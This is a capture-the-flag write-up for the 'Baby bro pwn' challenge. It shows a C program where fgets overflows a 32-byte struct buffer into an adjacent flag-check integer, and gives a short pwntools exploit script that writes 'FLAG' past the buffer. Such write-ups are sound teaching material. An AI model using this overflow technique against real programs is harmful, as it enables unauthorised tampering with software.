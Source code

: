 # Baby bro pwn - EQUINOR 2024 (PWN)

## Challenge description

> _"Yo, tell me something real quick fam, but keep it short pls, I don't deal with essay type conversations, esse."_

We’re given a C program that:

1. Defines a struct with a 32-byte message buffer and an integer `showFlag`.
2. Prompts the user and reads input into `message` with `fgets`.
3. Checks whether `showFlag == 0x47414c46`.
4. If true, prints the flag; otherwise prints some “bro talk” and loops.

---
## Vulnerable code
```c
struct __attribute__((__packed__)) Dude {
    char message[32];
    int showFlag;
};

int main() {
    struct Dude homie;

    do {
        printf("What's up dude?\n> ");
        fgets(homie.message, 37, stdin);

        if (homie.showFlag == 0x47414c46) {
            printf("%s\n", FLAG);
            return 0;
        } else {
            printf("Damn, cappin bussin, I'm sorry...\n");
        }
    } while (1);
}
```

The bug:
- `message` is 32 bytes, but `fgets` allows reading **36 bytes**.
- That overflow overwrites the adjacent `showFlag`.
- The target value `0x47414c46` equals `"FLAG"` in ASCII.

Since the system is little-endian, writing `"FLAG"` as bytes after the 32-byte buffer sets `showFlag` correctly.

---
## Vulnerability

We just need to send 32 padding bytes (to fill `message`) plus `"FLAG"` to overwrite `showFlag`.

Payload structure:
```css
[ 32 * "A" ] + [ "FLAG" ]
```

This sets `homie.showFlag = 0x47414c46` → condition passes → flag is printed.

---
## Exploit
```python
from pwn import *

# Setup
context.binary = ELF('./baby_bro_pwn')
context.log_level = 'info'

# Offsets
OFFSET = 32              # size of message[]
TARGET = b'FLAG'         # bytes that set showFlag correctly

payload = b'A' * OFFSET + TARGET

# Local process (replace with remote(host, port) if deployed)
p = process('./baby_bro_pwn')

p.recvuntil(b"> ")
p.sendline(payload)

# The binary prints multiple lines with sleep() before the flag.
# To avoid waiting too long, just capture everything with a timeout.
print(p.recvall(timeout=12).decode(errors='ignore'))
```
